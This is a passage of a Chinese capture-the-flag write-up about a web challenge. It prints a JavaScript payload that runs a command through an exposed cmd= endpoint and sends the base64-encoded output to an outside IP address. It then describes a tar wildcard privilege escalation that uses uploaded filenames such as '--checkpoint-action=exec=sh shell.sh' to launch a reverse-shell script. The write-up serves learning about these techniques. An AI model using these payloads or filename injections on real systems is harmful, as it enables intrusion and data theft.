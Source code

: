 在自己的vps上监听端口，即可收到请求。

可以发现admin.php中有一个admin/a0a.php?cmd=whoami，明显的命令执行。但是一直弹不回来shell，不知道为什么，只好用ajax把命令执行的结果反弹回来。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-d4959ce9c75fdc97.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

构造

```
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
`{`
    if (xmlhttp.readyState==4 &amp;&amp; xmlhttp.status==200)
    `{`
        document.location='http://47.106.142.99:8012/?'+btoa(xmlhttp.responseText);
    `}`
`}`
xmlhttp.open("POST","a0a.php?cmd=ls /",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send();
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-b81926a32a4d01f8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

但是读取flag会发现返回为空，执行ls -al /发现flag文件属于flag用户，且其他用户无法读取。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-2480e7b06ba9cbba.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

通过ls我们发现了一个MD5名字的目录，ls一下发现有upload.php，并且属于flag用户。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-4be63eac7f42498c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

访问页面，给了一个上传功能，一个备份功能。发现可以任意文件上传，上传php但是不可访问。备份点开可以发现是使用tar命令就行备份。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-d786e0658db72afb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

shadow爷爷告诉我这里可以利用tar命令进行提权。参考：[利用通配符进行Linux本地提权](https://www.freebuf.com/articles/system/176255.html)

其实就是把文件名当作命令参数给执行了。

将反弹shell的命令写入shell.sh，并上传。再接着上传两个文件–checkpoint-action=exec=sh shell.sh和–checkpoint=1，然后点击备份即可反弹shell。但是一直不能成功，按理说是没问题的，问了题目客服，他也说没问题。这就很迷了23333。

